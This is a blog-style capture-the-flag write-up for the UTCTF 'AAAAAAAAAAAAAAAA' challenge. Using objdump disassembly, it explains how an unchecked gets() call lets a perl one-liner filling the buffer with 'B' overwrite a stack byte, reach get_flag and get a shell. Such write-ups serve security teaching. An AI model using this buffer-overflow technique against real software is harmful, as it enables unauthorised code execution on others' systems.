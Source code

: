 ```yaml
---
layout: post
title: "[UTCTF] AAAAAAAAAAAAAAAA"
author: Dieter
---
```


# AAAAAAAAAAAAAAAA

## Problem description
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
This creatively named beginner challenge provides us with two pieces of information. A binary, and a server that the program is running on.  In this writeup, we are going to explore how a beginner might approach this problem, reasoning with the information given to find the flag.

Downloading the binary file, we can examine its contents to determine that its an x86 ELF executable for linux machines. 

```cpp
$file AAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAA: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6a09f0a7e6d7e792e905fdaaf1561dfbc61d3708, for GNU/Linux 3.2.0, not stripped
```

By using objdump, we can examine the contents of the binary. Objdump is a tool that come preinstalled on UNIX systems, making it an ideal choice for beginners looking to explore some binaries. 

Inside the output, there’s a lot of information. Mostly, it consists of c-library functions and other information. However, there are two functions that might stand out to someone looking to solve this challenge: main, and get_flag.

```cpp
0000000000401156 <main>:
  401156:	f3 0f 1e fa          	endbr64
  40115a:	55                   	push   %rbp
  40115b:	48 89 e5             	mov    %rsp,%rbp
  40115e:	48 83 ec 70          	sub    $0x70,%rsp
  401162:	c6 45 ff 00          	movb   $0x0,-0x1(%rbp)
  401166:	48 8d 45 90          	lea    -0x70(%rbp),%rax
  40116a:	48 89 c7             	mov    %rax,%rdi
  40116d:	b8 00 00 00 00       	mov    $0x0,%eax
  401172:	e8 e9 fe ff ff       	call   401060 <gets@plt>
  401177:	80 7d ff 42          	cmpb   $0x42,-0x1(%rbp)
  40117b:	75 0a                	jne    401187 <main+0x31>
  40117d:	b8 00 00 00 00       	mov    $0x0,%eax
  401182:	e8 07 00 00 00       	call   40118e <get_flag>
  401187:	b8 00 00 00 00       	mov    $0x0,%eax
  40118c:	c9                   	leave
  40118d:	c3                   	ret

000000000040118e <get_flag>:
  40118e:	f3 0f 1e fa          	endbr64
  401192:	55                   	push   %rbp
  401193:	48 89 e5             	mov    %rsp,%rbp
  401196:	48 83 ec 10          	sub    $0x10,%rsp
  40119a:	48 8d 05 63 0e 00 00 	lea    0xe63(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  4011a1:	48 89 45 f0          	mov    %rax,-0x10(%rbp)
  4011a5:	48 c7 45 f8 00 00 00 	movq   $0x0,-0x8(%rbp)
  4011ac:	00
  4011ad:	48 8b 45 f0          	mov    -0x10(%rbp),%rax
  4011b1:	48 8d 4d f0          	lea    -0x10(%rbp),%rcx
  4011b5:	ba 00 00 00 00       	mov    $0x0,%edx
  4011ba:	48 89 ce             	mov    %rcx,%rsi
  4011bd:	48 89 c7             	mov    %rax,%rdi
  4011c0:	e8 8b fe ff ff       	call   401050 <execve@plt>
  4011c5:	90                   	nop
  4011c6:	c9                   	leave
  4011c7:	c3                   	ret
  4011c8:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  4011cf:	00
```

With a little bit of intuition, it’s obvious that we’re going to want to try and call the function get_flag. Examining the assembly code for this function reveals a syscall, confirming these suspicions. 

```cpp
4011c0:	e8 8b fe ff ff       	call   401050 <execve@plt>
```

Thus, if we can call get_flag, the system will execute the syscall, allowing us to access the flag. With that in mind, how can we call get_flag?

Conveniently, main includes a call to this function! However, it gets jumped over in the program’s normal execution

```cpp
401177:	80 7d ff 42          	cmpb   $0x42,-0x1(%rbp)
40117b:	75 0a                	jne    401187 <main+0x31>
40117d:	b8 00 00 00 00       	mov    $0x0,%eax
401182:	e8 07 00 00 00       	call   40118e <get_flag>
```

The above lines in main represent code that compares the value 1 off of the base of the stack frame with the value 0x42. If the at -0x1(rbp) is not equal to 0x42, we jump to <main+0x31>, skipping the call to get flag. At this point, one might devise a new goal — set -0x1(rbp), and in doing so, successfully make a call to get_flag.

```cpp
  401166:	48 8d 45 90          	lea    -0x70(%rbp),%rax
  40116a:	48 89 c7             	mov    %rax,%rdi
  40116d:	b8 00 00 00 00       	mov    $0x0,%eax
  401172:	e8 e9 fe ff ff       	call   401060 <gets@plt>
```

Just before get flag, we see that there’s a call to gets, a commonly known vulnerable C-function. Gets, as a function, is vulnerable because it does not check if the size of its input fits within the bounds of its output buffer. Hence, a malicious user can utilize gets to overflow a memory buffer, taking control of the program.

With all of this in mind, the exploit in this challenge becomes quite clear; overflow the buffer passed to gets so that it writes 0x42 at -0x1(rbp). Doing so will mean that we fail the jne call in main, successfully calling get_flag! 

Generating the attack string is also pretty easy. In ASCII, the letter ‘B’ has hexadecimal value 0x42. Using perl, we can quickly generate a string containing the character ‘B’ 0x70 times. Since the beginning of main allocates 0x70 bytes onto the stack, if we fill the entire thing with the char B, we’re guaranteed to overwrite the value of -0x1(rbp).

```cpp
perl -e 'print "B" x 0x70' > exploit.txt
```

Finally, if we hop into gdb and run our program with exploit.txt we can see that the overflow is successful, and we are able to make our call to get_flag. 

![gdboutput](/assets/images/utctf2022/AAAAAAAAAAAAAAAA/gdboutput.png)

When running this exploit on the given server, we receive an interactive shell, where we find our flag!